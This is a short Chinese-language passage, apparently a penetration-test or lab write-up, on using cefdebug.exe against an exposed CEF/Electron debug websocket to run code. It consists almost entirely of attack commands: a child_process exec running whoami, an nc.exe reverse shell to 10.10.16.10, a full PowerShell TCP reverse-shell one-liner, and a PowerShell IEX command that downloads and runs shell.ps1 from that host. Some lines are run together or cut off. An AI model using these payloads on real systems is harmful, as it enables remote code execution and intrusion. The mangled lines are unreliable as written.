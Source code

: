 [![](assets/1705974590-cb4340077363d0e8b6041620b648f023.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121223440-36141d26-b86a-1.png)

## CEF调试

```plain
\cefdebug.exe--code"process.version"--url ws://127.0.0.1:63254/3788348a-7950-47f9-a91d-14ee16ffc052
.\cefdebug --code"process.mainModule.require('child_process').exec('whoami > C:\windows\system32\spool\drivers\color\x')"  ws://127.0.0.1:63254/3788348a-7950-47f9-a91d-14ee16ffc052a-b0
1a-629102094b
```

使用cefdebug.exe来进行调试。

[![](assets/1705974590-852a25d9f121487deeb8196341010c56.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121223530-53de15d2-b86a-1.png)

```plain
.\cefdebug --code "process.mainModule.require('child_process').exec('C:\\programdata\\nc.exe 10.10.16.10 443 -e cmd')"--urlws://127.0.0.1:60404/830$client = New-Object 
$client = New-Object System.Net.Sockets.TCPClient('10.10.16.10',5555);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PSReverseShell# ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}$client.Close();

.\cefdebug.exe --url ws://127.0.0.1:38802/8dcd4ac7-49f5-4652-9c95-3f0d7766ffc7 --code "process.mainModule.require('child_process').exec('powershell IEX(New-Object Net.WebClient).DownloadString(\'http://10.10.16.10/shell.ps1\')')"
```

